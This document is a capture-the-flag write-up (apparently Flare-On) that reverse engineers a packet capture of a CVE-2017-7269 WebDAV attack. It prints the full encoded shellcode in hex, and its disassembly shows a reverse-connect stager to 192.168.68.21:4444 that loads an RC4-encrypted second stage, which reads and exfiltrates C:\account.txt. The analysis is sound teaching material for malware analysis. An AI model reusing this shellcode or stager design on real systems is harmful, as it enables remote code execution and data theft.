






# 7 - Re crowd

## Description

Hello,

Here at Reynholm Industries we pride ourselves on everything.
It's not easy to admit, but recently one of our most valuable servers was breached. 
We don't believe in host monitoring so all we have is a network packet capture.
We need you to investigate and determine what data was extracted from the server, if any.

Thank you

## Walkthrough

In this case we have to analyze a _PCAP_ file. If we take a look to it in _Wireshark_ we will see that the _IP_ address _192.168.68.21_ is doing something strange.


If we take a look to the _payload_ of the message we can see how it checks something using the _PROPFIND_ method. We can see a lot of similar requests, also, the fact that the _payload_ seems to be encoded, gives us the hint that this user is trying to exploit some kind of vulnerability.

After some research we get our response, it tries to exploit the _CVE 2017-7269_ vulnerability using an alphanumeric _shellcode_, located at "Data/shellcode.bin".

```
56 56 59 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 49 41 6A 58 41 51 41 44 41 5A 41 42 41 52 41 4C 41 59 41 49 41 51 41 49 41 51 41 49 41 68 41 41 41 5A 31 41 49 41 49 41 4A 31 31 41 49 41 49 41 42 41 42 41 42 51 49 31 41 49 51 49 41 49 51 49 31 31 31 41 49 41 4A 51 59 41 5A 42 41 42 41 42 41 42 41 42 6B 4D 41 47 42 39 75 34 4A 42 59 6C 48 68 61 72 6D 30 69 70 49 70 53 30 75 39 69 55 4D 61 59 30 71 54 74 4B 42 30 4E 50 52 6B 71 42 4C 4C 42 6B 50 52 4D 44 62 6B 73 42 6C 68 6C 4F 77 47 4D 7A 6D 56 4E 51 6B 4F 54 6C 6D 6C 51 51 71 6C 6C 42 4C 6C 4D 50 47 51 56 6F 5A 6D 6A 61 46 67 58 62 49 62 72 32 4E 77 52 6B 31 42 7A 70 44 4B 6D 7A 4F 4C 74 4B 50 4C 6A 71 71 68 4A 43 61 38 7A 61 38 51 50 51 74 4B 61 49 6D 50 49 71 67 63 74 4B 4D 79 5A 78 6B 33 4D 6A 6E 69 52 6B 4D 64 64 4B 4D 31 36 76 6E 51 59 6F 56 4C 66 61 58 4F 6A 6D 39 71 75 77 50 38 57 70 30 75 6C 36 4C 43 71 6D 39 68 4F 4B 61 6D 4E 44 43 45 47 74 6E 78 42 6B 4F 68 4D 54 4B 51 56 73 32 46 74 4B 4C 4C 50 4B 64 4B 4E 78 4B 6C 59 71 5A 33 74 4B 4C 44 44 4B 59 71 58 50 64 49 71 34 6E 44 6E 44 6F 6B 71 4B 53 31 70 59 31 4A 62 31 79 6F 4B 30 4F 6F 31 4F 51 4A 62 6B 5A 72 48 6B 72 6D 61 4D 62 48 4C 73 4C 72 59 70 6B 50 42 48 52 57 72 53 6C 72 61 4F 31 44 53 38 6E 6C 62 57 6D 56 6B 57 39 6F 48 55 74 78 56 30 4D 31 49 70 79 70 4B 79 69 34 4E 74 62 30 62 48 4E 49 75 30 30 6B 79 70 69 6F 49 45 4E 70 4E 70 50 50 32 30 31 30 32 30 61 30 6E 70 53 38 78 6A 4C 4F 47 6F 67 70 49 6F 77 65 46 37 50 6A 6B 55 53 38 55 70 77 38 31 34 6E 35 50 68 4C 42 69 70 6A 71 71 4C 72 69 58 66 71 5A 6C 50 72 36 62 37 70 68 33 69 74 65 61 64 71 51 4B 4F 77 65 43 55 45 70 64 34 4A 6C 59 6F 70 4E 39 78 62 55 48 6C 30 68 7A 50 57 45 56 42 52 36 79 6F 66 75 30 6A 39 70 51 5A 6B 54 71 46 52 37 6F 78 4B 52 79 49 66 68 6F 6F 39 6F 48 55 44 4B 70 36 33 51 5A 56 70 4B 71 48 30 4F 6E 72 62 6D 6C 4E 32 4A 6D 70 6F 78 4D 30 4E 30 79 70 4B 50 30 51 52 4A 69 70 70 68 70 58 36 44 30 53 6B 35 69 6F 47 65 42 6D 44 58 39 70 6B 51 39 70 4D 30 72 33 52 36 70 50 42 4A 4B 50 30 56 62 33 42 37 33 38 4B 52 78 59 46 68 31 4F 49 6F 48 55 39 71 55 73 4E 49 55 76 31 65 68 6E 51 4B 71 49 6F 6D 72 35 4F 67 34 49 59 4F 67 78 4C 50 6B 50 4D 30 79 70 30 6B 53 39 52 4C 70 6C 61 55 54 32 32 56 32 55 42 4C 44 34 52 55 71 62 73 35 4C 71 4D 62 4F 43 31 4E 70 31 67 50 64 6A 6B 4E 55 70 42 55 39 6B 31 71 38 6F 79 70 6D 31 39 70 4D 30 4E 51 79 4B 39 72 6D 4C 39 77 73 59 65 72 73 50 4B 32 4C 4F 6A 62 6B 6C 6D 46 34 4A 7A 74 6B 57 44 46 6A 74 6D 4F 62 68 4D 44 49 77 79 6E 39 30 53 45 37 78 4D 61 37 6B 4B 4E 37 50 59 72 6D 4C 79 77 63 5A 4E 34 49 77 53 56 5A 74 4D 4F 71 78 6C 54 4C 47 49 72 6E 34 6B 6F 31 7A 4B 64 6E 37 50 30 42 35 49 70 70 45 6D 79 42 55 6A 45 61 4F 55 73 41 41
```

If we take another look at the _PCAP_ file, we can see how, at line 290 the user sends some data, possibly a second stage of the shellcode, however, seems to be encrypted:

```
9c5c4f52a4b1037390e4c88e97b0c95bc630dc6abdf4203886f93026afedd0881b924fe509cd5c2ef5e168f8082b48daf7599ad4bb9219ae107b6eed7b6db1854d1031d28a4e7f268b10fdf41cc17fab5a739202c0cb49d953d6df6c0381a021016e875f09fe9a699435844f01966e77eca3f3f52f6a3636ab4775b580cb47bd9f7638a54048579c36ad8e7945a320faed1f1849b88918482b5b6feef4c3d6dccc84eab10109b1314ba4055098b073ae9c14101b65bd93826c57b9757a2aeede10fb39ba96d0361fc2312cc54f33a513e1595692c51fa54e0e626edb5be87f8d01a67d012b02431f54b9bcd5ef2db3daef3dd068fedade60b117feea204a2ca1bba1b5c51292a9dbf111e38c58badc3d288666c86d0eabfa83d5246010681dc7afc7ac4513a3d972e7cc5179f567417cae7fc87e954609f6ef4b4502745210501cb76a7ceb00d759c3290237d0472e1e3af7e6ac821474eb4f6b572213f6f248d66bcbb4eda73268cbd06642d3c5f2c537df7d9f9f28c0743abeb8c0a773d0bbfa507c101edab123d6c481a5d3b62229096b21a65c38c6803dbe0823c7b11f6de6646695dc10a71342cd3bfadcda148dd05ac88135542fb5dc61d6287788c55870b52fcfea4f4d85560407f39074ce5d3c8a2b06b49fe66d79c06e3dd83e2008b7743d3699cd7f607d9cc9b3ad0c8e456dea3ddd091dda0b3a1cfccb8148ed5afacef8c623b01e2644a3d9ab0ed598b133655ded6ad3237f024ab3a2f81d7ed12f5fbe89615e2ce4b89619e549764e7ae892a370556f7d3cf9c1364469337ddf7937b8e0aae86a5dc93b180f4e283a31a87fefb819ac3663e889214d83a77e5703489be1279306e43b675fe56950003e8b01b7efa6b54b3682d4fb9fde8b27cca457ce2537445042f77ea2bf4fdf0f72d8664a3ef5c8262ac5887b97ab235b2b61d83f00370e7e14fafd7df78149c2a1851bd028bea524fd60b278274eace8793b3b7adc56d076c5010fcf43b5d45f4870bdac6576db113b5bcf9c528b001e83f1fa925b7779076ae0d4339a71ba24a5a5c8eb4c01b3d3cd2c228c0b4ccd2d5a8c9ab167707f7596e256c11dff057e77a2bae59aaef9f8b2f178d2b1dce903c2d4ff1f66cdb047f0b4d1f672fa1eb7f14de76e4210ec5d9430dd7f751c014546b6146cf7453658eceff337049c21eb9454a3fe23cbbb315c6275bded2790fe9117e2ae429b7904d15cefcd4b86934a74412dad0b351d81fd102c8efd8c681df5450ab5b409be0efafad2f74e58d83c1a1b113d992553ab78ac5449bb2a42b38066b563e290f8a58f37af97132be8fc5d4b718b4d9fc8ec07281fcb30921e6ddcb9de94b8e9cb5af7a2b0bb0fc338b727331be9bf452d863e346d12f6051227c528e4d261267e992b3f1f034d7972b983566d8e8233c209eb214a0c13adea291b58da10164320557df4b7fc2634688ba054af07d5d523b523b8fb07c6644a567fa06d867c333b23b79d9ca822b1799f00e776e9c768ae5c23ae9fc6459148836fbf0ad8c977ab2c2d8547bfe9818013d9dc1c210ff4c7790752a8068c576353b2fb7dbe6c1aae2ebdc6fd970a04edc0a30545db9b62bd34a9082553009036cfd96315a5f7f8e0d869fd7924607ba2aebdf2b4b9c2088465a96deba5d872a7b65921b9f411125d391d15756d8a2f58c2fc80025178a9fc7dde0d85a55718f8f0cc8e4c5ed76558744e8a4433a224e3565768babbf2b23298f1882ec3
```

This request will be known as _REQUEST_A_.

After that, at line 294 we can see how some data is sent back to the attacker, possibly is where the flag is located, but, again, encrypted:

```
43665783a5238977beac1b1f878f58933f24cf2cd39aa8d111c4bca67fcd38dbb33c034babf560c560d20d1d1888415b4f06176c9e0b01739d836018fa8bfff84d78b2a4246faebd92d1eccc2d7c8bbfd08cbde245ef15b288bca459be20acf957df10babcd911934119009c0225efc44a26fd25ca9b8519644ec5849fa100182c6830dc704cfe83f1c7002b497a830905776e0a088d56e4387e880f2c41e43366c9bc06aa2aa1962d94c008161ea4f2811a83f77cb57d6313004196ca6980ae49e95d0f7d8943d4891a01b46161
```
This request will be known as _REQUEST_B_.

It is time to analyze the shellcode, but it is encoded. After some research we found out that it is possibly encoded using the _AlphanumUnicodeMixed_ of _Metasploit_, which can be decoded using the following script (https://github.com/axfla/Metasploit-AlphanumUnicodeMixed-decoder/blob/master/dcode.py), but we have modified it to save the file as a bin file (Scripts/decode_shellcode.py):

```
$ python3 decode_shellcode.py
```

Now, we can see the real _shellcode_ (the first 63 bytes must be removed to execute it, since these belong to the decoding routine), located at "Data/decoded_shellcode.bin":



The first thing we check is that the function calls are made using a hashing algorithm, which differs a little bit from the well known _ror 0xD_ one as we can see:



However, we can see a wonderful explanation of such algorithm and a _Python_ script in the following _URL_, courtesy of _Overfl0w_: https://0ffset.net/reverse-engineering/malware-analysis/common-shellcode-techniques-2/.

To brute-force them we have developed a _Python_ script that takes two arguments, the symbols of a _DLL_ file and the _DLL_ name. It is located at "Scripts/brute_force_hashes.py".

If we execute it using the _kernel32.dll_ symbols and name, we can see how some hashes have been cracked!

```
$ python3 brute_force_hashes.py kernel32_exports.txt kernel32.dll

Occurrence found! The decrypted hash 0x726774c is: LoadLibraryA
No occurrence found for hash 0x6b8029!
No occurrence found for hash 0xe0df0fea!
No occurrence found for hash 0x6174a599!
Occurrence found! The decrypted hash 0x56a2b5f0 is: ExitProcess
No occurrence found for hash 0x5fc8d902!
Occurrence found! The decrypted hash 0xe553a458 is: VirtualAlloc
```

Now, the rest of the hashes can be cracked using _ws2_32.dll_ as reference.

```
$ python3 brute_force_hashes.py ws2_32_exports.txt ws2_32.dll

No occurrence found for hash 0x726774c!
Occurrence found! The decrypted hash 0x6b8029 is: WSAStartup
Occurrence found! The decrypted hash 0xe0df0fea is: WSASocketA
Occurrence found! The decrypted hash 0x6174a599 is: connect
No occurrence found for hash 0x56a2b5f0!
Occurrence found! The decrypted hash 0x5fc8d902 is: recv
No occurrence found for hash 0xe553a458!
```

Great! Now the code looks much more understandable.



If we check the arguments of the _connect_ function call, we can get the _IP_ address and the port of the attacker:

```
seg000:000000F9 6A 05                                push    5
seg000:000000FB 68 C0 A8 44 15                       push    1544A8C0h
seg000:00000100 68 02 00 11 5C                       push    5C110002h
seg000:00000105 89 E6                                mov     esi, esp
seg000:00000107
seg000:00000107                      loc_107:                                ; CODE XREF: sub_C6+53↓j
seg000:00000107 6A 10                                push    10h
seg000:00000109 56                                   push    esi
seg000:0000010A 57                                   push    edi
seg000:0000010B 68 99 A5 74 61                       push    6174A599h       ; connect
seg000:00000110 FF D5                                call    ebp
```

As we can see, it uses a sockaddr struct to pass the host information. This struct is composed by:

```
struct sockaddr_in {
        short   sin_family;		-> 2 bytes
        u_short sin_port;		-> 2 bytes
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```

The struct value of the shellcode is:

```
1544A8C05C110002h
```

This can be decomposed as follows (take in mind endianness):

```
0002	-> AF_INET
115C	-> 4444
C0	-> 192
A8	-> 168
44	-> 68
15	-> 21
```

So now, we have the port and the IP address:

```
192.168.68.21:4444
```

This looks quiet familiar!

After that, the binary receives 4 bytes at first, which are used to get the size of the next chunk of data to receive, but an _XOR_ operation is performed.

If we get the first four bytes of the request _REQUEST_A_ and apply the _XOR_ operation, we will get the bytes of the next chunk of the _REQUEST_A_ data.

```
0x524F584B ^ 0x524F5C9C = 0x4D7 = 1239
```

Great! It is exactly what we expected!

Then, it allocates _1239_ bytes in memory (the same size of the next chunk) and receives the next chunck, then it will decrypt tit using the following password:

```
6B696C6C657276756C74757265313233 = killervulture123
```



The decryption routine is as follows:

```
seg000:00000181 5E                                   pop     esi			-> ESI = KEY
seg000:00000182 31 C0                                xor     eax, eax		        -> EAX = 0
seg000:00000184
seg000:00000184                      loc_184:
seg000:00000184 AA                                   stosb				-> BUFFER[0x100 + AL] = AL
seg000:00000185 FE C0                                inc     al			        -> AL = AL + 1
seg000:00000187 75 FB                                jnz     short loc_184		-> IF AL != 0 -> continue
seg000:00000189 81 EF 00 01 00 00                    sub     edi, 100h		        -> EDI = base address of the encrypted buffer + 0x100 (the pointer to the buffer was incremented by 0x100 in the previous loop)
seg000:0000018F 31 DB                                xor     ebx, ebx		        -> EBX = 0
seg000:00000191
seg000:00000191                      loc_191:
seg000:00000191 02 1C 07                             add     bl, [edi+eax]		-> BL = BUFFER[0x100 + EAX]
seg000:00000194 89 C2                                mov     edx, eax			-> EDX = EAX
seg000:00000196 80 E2 0F                             and     dl, 0Fh			-> DL = DL AND 0xF
seg000:00000199 02 1C 16                             add     bl, [esi+edx]		-> BL = BL + KEY[EDX]
seg000:0000019C 8A 14 07                             mov     dl, [edi+eax]		-> DL = BUFFER[0x100 + EAX]
seg000:0000019F 86 14 1F                             xchg    dl, [edi+ebx]		-> DL = BUFFER[0x100 + EBX] | BUFFER[0x100 + EBX] = DL
seg000:000001A2 88 14 07                             mov     [edi+eax], dl		-> BUFFER[0x100 + EAX] = DL
seg000:000001A5 FE C0                                inc     al				->	AL = AL + 1
seg000:000001A7 75 E8                                jnz     short loc_191

...

seg000:000001A9 31 DB                                xor     ebx, ebx			-> EBX = 0
seg000:000001AB                      loc_1AB:
seg000:000001AB FE C0                                inc     al			        -> AL = AL + 1
seg000:000001AD 02 1C 07                             add     bl, [edi+eax]		-> BL = BL + BUFFER[0x100 + EAX]
seg000:000001B0 8A 14 07                             mov     dl, [edi+eax]		-> DL = BUFFER[0x100 + EAX]
seg000:000001B3 86 14 1F                             xchg    dl, [edi+ebx]		-> DL = BUFFER[0x100 + EBX] | BUFFER[0x100 + EBX] = DL
seg000:000001B6 88 14 07                             mov     [edi+eax], dl		-> BUFFER[0x100 + EAX] = DL
seg000:000001B9 02 14 1F                             add     dl, [edi+ebx]		-> DL = DL + BUFFER[0x100 + EBX]
seg000:000001BC 8A 14 17                             mov     dl, [edi+edx]		-> DL = BUFFER[EDX]
seg000:000001BF 30 55 00                             xor     [ebp+0], dl		-> BUFFER[COUNTER] = BUFFER[COUNTER] ^ DL
seg000:000001C2 45                                   inc     ebp			-> COUNTER++
seg000:000001C3 49                                   dec     ecx			-> ECX-- (ECX is equal to the length of the buffer)
seg000:000001C4 75 E5                                jnz     short loc_1AB
```

To debug the decryption algorithm we have developed our own server, which can be located at, "Scripts/emulate_malware.py". This one will listen for incoming connections and send the data that the _shellcode_ expects. After executing it, we have to modify the _shellcode_ to connect to our _IP_ address and then, we can executing it using _Blobrunner_. Now, we can open _x32dbg_ and execute the following command:

```
init C:\Users\L3cr0f\Desktop\Binaries\7_-_re_crowd\blobrunner.exe,C:\Users\L3cr0f\Desktop\Binaries\7_-_re_crowd\decoded_shellcode_modified.bin
```

After decrypting the data in the allocated chunk, it is executed substituting the return address.

To decrypt it, we have devloped an script, which can be located at "Scripts/decrypt_next_stage.py".

```
$ python3 decrypt_next_stage.py
```

Now, we have to analyze the second stage, located at "Data/second_stage.bin".

This new shellcode will execute several functions, but we only need to understand the one that encrypts the data that sends to the attacker, this is the one at _0x38F_ (some functions have been renamed for clarity).



As we can see, it reads the file called "C:\account.txt" and encrypts it using the password "intrepidmango", but, notice that prior executing the decryption routine, it executes a key derivation algorithm under the _derive_key_ function. So we can analyze this key derivation algorithm or... Debugging the shellcode and printing out the derived buffer:

```
DB BD 4E AA 9F 01 E3 E5 0F A0 C8 44 BF 87 A8 34
AC 79 82 20 98 5F 86 91 95 1D 9B FA 39 3F 21 51
3E 52 AB 46 FF 2F FE 8E DD C1 41 70 61 36 89 57
B6 55 4D 78 F0 83 F7 D6 73 60 0C 5E C9 A5 EC 50
80 4F 71 29 B1 14 92 45 68 C7 ED DC 99 9A E6 F4
D1 EF 75 31 59 EE 17 D5 94 A7 5C 33 9C F8 3D 25
B4 A6 6C 7B D8 D4 FC 77 CA 30 F3 11 66 CF 03 F6
12 13 32 28 69 8A 54 40 90 22 FB B3 93 7D CC 67
F9 E9 65 07 B2 3A CB 35 26 5B 47 B5 2C 2A B7 56
D0 BA 09 23 8F 3C 64 D7 B8 A3 06 9D 37 E1 6A 8C
5A DF EA E7 D3 DA C6 1E 43 EB C3 F5 04 53 48 49
6F 3B C2 C0 AD 4B 1A 27 88 85 AF BC E0 96 42 4A
5D 16 02 C5 2D 76 1C 7C 8B 63 B0 58 FD 0E 00 74
D2 0B 7F 72 A4 CE 7E 6B A1 15 A2 2B E4 6E A9 4C
97 19 81 10 62 18 AE F1 F2 D9 0A 1B 1F 9E E8 CD
DE BB 8D 6D 0D 2E BE C4 B9 E2 7A 24 05 08 84 38
00 00
```

Now, the encryption routine looks as follows:



It is a simple _XOR_ between two values, the _REQUEST_B_ buffer and the one taken from a function (_0x16B_) that uses the derived buffer as argument. This function looks as follows:

```
seg000:00000175                 mov     edx, eax		-> EDX = EAX = ENC_BUF
seg000:00000177                 mov     cl, [edx+100h]		-> CL = ENC_BUF[0x100] (initial value = 0)
seg000:0000017D                 mov     bl, [edx+101h]		-> BL = ENC_BUF[0x101] (initial value = 0)
seg000:00000183                 add     cl, 1			-> CL = CL + 1
seg000:00000186                 mov     eax, edx		-> EAX = ENC_BUF
seg000:00000188                 movzx   esi, cl			-> ESI = CL
seg000:0000018B                 add     eax, esi		-> PTR = ESI
seg000:0000018D                 mov     al, [eax]		-> AL = ENC_BUF[PTR]
seg000:0000018F                 add     bl, al			-> BL = BL + AL = ENC_BUF[0x100] + ENC_BUF[PTR]
seg000:00000191                 mov     [edx+100h], cl		-> ENC_BUF[0x100] = CL
seg000:00000197                 mov     [edx+101h], bl		-> ENC_BUF[0x101] = BL
seg000:0000019D                 mov     eax, edx		-> EAX = EDX = ENC_BUF
seg000:0000019F                 movzx   esi, bl			-> ESI = BL
seg000:000001A2                 add     eax, esi		-> PTR = ESI
seg000:000001A4                 mov     al, [eax]		-> AL = ENC_BUF[PTR]
seg000:000001A6                 mov     [ebp+var_3], al		-> VAR_3 = AL = ENC_BUF[PTR]
seg000:000001A9                 mov     eax, edx		-> EAX = EDX = ENC_BUF
seg000:000001AB                 mov     esi, eax		-> ESI = EAX = ENC_BUF
seg000:000001AD                 movzx   eax, bl			-> EAX = BL
seg000:000001B0                 add     esi, eax		-> PTR = EAX = BL
seg000:000001B2                 mov     eax, edx		-> EAX = EDX = ENC_BUF
seg000:000001B4                 movzx   edi, cl			-> EDI = CL
seg000:000001B7                 add     eax, edi		-> PTR = EDI = CL
seg000:000001B9                 mov     al, [eax]		-> AL = ENC_BUF[PTR]
seg000:000001BB                 mov     [ebp+var_4], al		-> VAR_4 = AL
seg000:000001BE                 mov     al, [ebp+var_4]		-> AL = VAR_4
seg000:000001C1                 mov     [esi], al		-> ENC_BUF[BL] = AL
seg000:000001C3                 mov     eax, edx		-> EAX = EDX = ENC_BUF
seg000:000001C5                 mov     esi, eax		-> ESI = EAX
seg000:000001C7                 movzx   eax, cl			-> EAX = CL
seg000:000001CA                 add     esi, eax		-> PTR = EAX = CL
seg000:000001CC                 mov     al, [ebp+var_3]		-> AL = ENC_BUF[PTR]
seg000:000001CF                 mov     [esi], al		-> ENC_BUF[PTR] = AL
seg000:000001D1                 mov     eax, edx		-> EAX = EDX = ENC_BUF
seg000:000001D3                 lea     esi, [eax]		-> ESI = ENC_BUF
seg000:000001D5                 lea     eax, [edx]		-> EAX = ENC_BUF
seg000:000001D7                 movzx   ecx, bl			-> ECX = BL
seg000:000001DA                 add     eax, ecx		-> PTR = ECX = BL
seg000:000001DC                 mov     cl, [eax]		-> CL = ENC_BUF[PTR]
seg000:000001DE                 mov     al, [ebp+var_3]		-> AL = VAR_3
seg000:000001E1                 add     al, cl			-> AL = AL + CL
seg000:000001E3                 and     al, 0FFh		-> AL = AL & 0xFF
seg000:000001E5                 movzx   eax, al			-> EAX = AL
seg000:000001E8                 add     esi, eax		-> PTR = EAX
seg000:000001EA                 mov     al, [esi]		-> AL = ENC_BUF[PTR]
```

The whole decryption algorithm has been captured in a _Python_ script located at "Scripts/decrypt_flag.py":

```
$ python3 decrypt_flag.py

roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
richmond:Inventor-Hut-Autumn-Tray-6:bird
denholm:123:dogª‰›ãIà?Aúq¢ë
µ·z“îè­K©Û¦Õ>–¿”ý՟v””:‘«œåm–vï&M±œÕ#ˆe(‚Eúƒ<¬ê±áøï寧zGÁ¥"Æ"¾ÀgŽ’zKX枓Gkí½|X®êgîii")Å7ÍC´	Êèû3/H‰ô™J»‡T÷ÿ-®U°ð t܎ʔƒ´#¶j{äDÁîAìW¨T,z;Kû#ʋßì´eUÏGx$þÿ¢!„4½3™v;WÛet¨ÄQœ©Q‰%q-]ŽÓÒc‰“	̓–é9¿]'jZ„Ùݓ{ïŠ*ÎéÈѦÒÖ}¸õ
```

The flag is: `h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com`.
